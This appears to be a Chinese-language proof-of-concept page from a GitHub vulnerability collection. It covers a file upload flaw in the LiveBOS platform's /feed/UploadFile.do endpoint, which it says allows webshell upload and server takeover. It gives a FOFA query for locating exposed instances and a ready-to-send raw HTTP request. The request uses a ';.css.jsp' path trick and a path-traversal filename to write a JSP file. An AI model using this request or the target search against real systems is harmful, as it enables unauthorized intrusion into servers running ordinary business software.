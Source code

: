 # 灵动业务架构平台(LiveBOS)系统UploadFile.do接口文件上传漏洞(XVE-2023-21708)

LiveBOS灵动业务架构平台（简称LiveBOS）是顶点软件股份有限公司开发的一个对象型业务架构中间件及其集成开发工具。 LiveBOS /feed/UploadFile.do接口存在文件上传漏洞，攻击者可利用该漏洞上传Webshell，获取服务器权限。

## fofa

```yaml
app="LiveBOS-框架"
```
![image](https://github.com/user-attachments/assets/f7024c5d-8c58-40d1-b2ef-35f0db7ab495)
![image](https://github.com/user-attachments/assets/307633e8-69bd-4327-bcfe-053c3ff5429a)
![image](https://github.com/user-attachments/assets/40d80911-d4dc-48cc-b0ab-bd31be309269)


## poc

```yaml
POST /feed/UploadFile.do;.css.jsp HTTP/1.1
Host:
Httpsendrequestex: true
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 049266bd-e740-40bf-845f-bc511296894e
Accept-Encoding: gzip, deflate
Cookie: zhzbsessionname=35FF312409BF3CAC561D5BC776643A05
Content-Type: multipart/form-data;boundary=--------------------------688644671867822357584225
Content-Length: 222

----------------------------688644671867822357584225
Content-Disposition: form-data; name="NewFile"; filename="/../../../11.jsp"
Content-Type: text/plain

test
----------------------------688644671867822357584225—-
```

